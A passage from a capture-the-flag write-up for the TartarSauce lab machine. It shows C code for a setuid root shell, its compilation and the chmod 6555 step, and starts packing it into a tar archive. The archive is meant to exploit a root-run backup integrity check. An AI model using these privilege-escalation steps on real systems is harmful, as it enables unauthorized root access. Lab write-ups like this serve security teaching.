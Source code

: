```

int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

```

Since TartarSauce is x86, I’ll compile with the -m32 flag and ignore those warnings:

```

root@kali# gcc -m32 -o suid suid.c
suid.c: In function ‘main’:
suid.c:2:3: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
   setresuid(0, 0, 0);
   ^~~~~~~~~
suid.c:3:3: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
   system("/bin/bash");
   ^~~~~~

```

Finally, I’ll add the setuid bit:

```

root@kali# chmod 6555 suid
root@kali# ls -l suid*
-r-sr-sr-x 1 root root 15484 Oct 21 11:44 suid
-rwxr-x--- 1 root root    63 Oct 21 11:44 suid.c

```

### Add to Archive

#### Why Do I Need var/www/html Directories?

Next add it to a gzipped archive using tar. I’m going to need to mirror the directory structure on target. Why? Let’s see what happens if we don’t. We’ll create a .tar.gz file that contains suid.

It will be unzipped to `/var/tmp/check/suid`.

Then, `integrity_chk()` will be run, which will `diff /var/www/html /var/tmp/check/var/www/html`. That will exit with a 2, since that directory doesn’t exit. And as we saw above, that means the `if [[ $(integrity_chk) ]]` will evaluate false, and then the code will move to the section that cleans up.

#### Create Archive

Create directories (`-p` will create all the directories needed), add the file, and reset the suid bit:

```

root@kali# mkdir -p  var/www/html
root@kali# cp suid var/www/html/
root@kali# chmod 6555 var/www/html/suid

```
